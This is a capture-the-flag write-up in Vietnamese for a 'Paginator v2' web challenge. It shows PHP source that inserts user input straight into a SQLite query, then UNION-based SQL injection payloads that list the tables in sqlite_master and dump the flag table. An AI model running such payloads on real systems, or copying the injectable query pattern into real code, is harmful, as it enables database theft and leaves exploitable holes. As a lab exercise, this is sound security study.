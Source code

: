 ```php
    $q = "SELECT * FROM pages WHERE id >= $min AND id <= $max";
    $result = $db->query($q);
    while ($row = $result->fetchArray(SQLITE3_ASSOC)) {
      echo $row['title'] . " (ID=". $row['id'] . ") has content: \"" . $row['content'] . "\"<br>";
    }
  }catch(Exception $e) {
    echo "Try harder!";
  }
} else {
    echo "Try harder!";
}
?>

<html>
    <head>
        <title>Paginator v2</title>
    </head>
    <body>
        <h1>Paginator v2</h1>
        <a href="/?p=2,10">Show me pages 2-10</a>
        <p>To view the source code, <a href="/?source">click here.</a>
    </body>
</html>
Try harder!
```

Ở đây flag không còn nằm ở page 1 nữa mà nằm hẳn ở một table khác nên mình thử xem sqlite_master để list các mảng xem như thế nào. 

`2, 10 union select name,name,name from sqlite_master`

Sau khi query thì mình dính lỗi và không lấy được sqlite_master

![image](https://hackmd.io/_uploads/rJ-OzZC_ye.png)

Có lẽ web đã chặn duplicate column hay gì đó nên mình tìm payload khác và thấy được cái này

![image](https://hackmd.io/_uploads/ByoTXZAuke.png)

Mình thử query thử xem có gì hot

`2, 10 union select * from (select name from sqlite_master)a join (select name from sqlite_master)b join (select name from sqlite_master)c`

![image](https://hackmd.io/_uploads/Bylz4WAuke.png)

Bump, web list hết các table của database và mình thấy có bảng flag nên query và lấy flag thôi.

`2, 10 union select * from flag`

![image](https://hackmd.io/_uploads/HymIEW0dkx.png)

Base64 decode lại là xong.
